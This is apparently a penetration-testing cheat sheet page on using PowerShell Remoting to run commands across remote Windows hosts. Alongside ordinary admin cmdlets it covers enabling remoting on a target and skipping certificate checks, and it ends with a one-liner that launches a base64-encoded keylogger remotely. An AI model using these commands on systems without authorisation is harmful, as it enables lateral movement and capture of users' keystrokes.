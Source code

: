 # PowerShell Remoting

If PowerShell Remoting is enabled, it can be used to execute commands on remote machines.

#### Check if PowerShell Remoting is Enabled
```powershell
Test-WSMan -ComputerName <target_ip> -Credential <domain>\<user>
```

```powershell
Test-WSMan -ComputerName <target_ip> -Credential (Get-Credential)
```

#### Enable PowerShell Remoting on Target System
```powershell
Invoke-Command -ComputerName <target_ip> -Credential <domain>\<user> -ScriptBlock { Enable-PSRemoting -Force }
```

#### Open Remote PowerShell Session
```powershell
Enter-PSSession -ComputerName <target_ip> -Credential <domain>\<user>
```

#### Run Commands Remotely and Collect Output
```powershell
Invoke-Command -ComputerName <target_ip> -Credential <domain>\<user> -ScriptBlock { <commands>  }
```

#### Run a Script on Multiple Hosts Simultaneously
```powershell
Invoke-Command -ComputerName <target_ip1>,<target_ip2> -Credential <domain>\<user> -ScriptBlock { <commands> }
```

#### Execute Scripts on Remote Host
```powershell
Invoke-Command -ComputerName <target_ip> -Credential <domain>\<user> -FilePath C:\path\to\script.ps1
```

#### Bypass WinRM SSL Certificate Check
```powershell
$opts = New-PSSessionOption -SkipCACheck -SkipCNCheck
New-PSSession -ComputerName <target_ip> -UseSSL -SessionOption $opts
```

#### Start Keylogger Remotely
```powershell
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command 'Add-Type -TypeDefinition $([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(\"<base64_payload_here>\"))); [Logger]::StartLogging()'" -ComputerName <target_ip>
```

# Pivoting and Tunneling
